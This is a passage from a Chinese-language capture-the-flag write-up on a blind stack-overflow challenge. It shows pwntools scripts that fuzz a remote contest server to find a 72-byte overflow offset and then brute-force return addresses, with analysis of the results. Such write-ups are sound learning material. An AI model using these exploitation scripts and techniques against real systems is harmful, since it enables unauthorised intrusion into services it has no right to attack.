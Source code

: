 ```c++
	read(0, buf, 1024);
	if(!strcmp(buf, "password\n"))
	   return 1;
	return 0;
}
```


#### 2. 通过fuzz确定：使栈溢出需要输入字符的长度
代码如下：

```python
from pwn import *
context.log_level = 'debug'
def exp1():
    io = remote('115.28.78.54', 13455)
    io.recvuntil('token:')
    io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
    for i in range(0,256):
        payload = 'a'*i
        io.recvuntil('WelCome my friend,Do you know password?')
        io.sendline(payload)
        content  = io.recvlines(10,timeout=1)
        print "i=%d   %s"%(i,content)
    io.interactive()

exp1()
```
结果如下图，可以看到当payload的长度为72时，程序不输出'No password,no game'
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-03-Hctf-fuzzPwn/2.png)
**分析：**当输入payload长度为72时,栈溢出函数的EBP被覆盖为无效地址，当函数返回时读取EBP内容无效从而程序崩溃退出，所以未能继续执行输出'No password,no game'。因此覆盖到返回地址之前，需要的payload长度为72。


#### 3. 通过fuzz找到：一些关键的返回地址
代码如下：

```python
from pwn import *

context.log_level = 'debug'
def exp1():
    io = remote('115.28.78.54', 13455)
    io.recvuntil('token:')
    io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
    base = 0x400000
    for offset in range(0,0x1000):
        addr =  base+offset
        payload = 'a'*72 + p64(base+offset)
        io.recvuntil('WelCome my friend,Do you know password?')
        io.sendline(payload)
        content  = io.recvlines(10,timeout=1)
        print "ret_addr=%s   %s"%(hex(addr),content)
    io.interactive()

exp1()
```
发现在0x400700附近，出现了如下图所示的异常：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-03-Hctf-fuzzPwn/3.png)
**分析:**
 - 0x40070c --> 什么都没有收到的情况是因为：返回到了某个需要参数输入的函数，正在等待参数输入
 - 0x400711 --> 打印出'No password,no game'的情况是因为：又返回到了主函数内，从新进行了一遍主函数
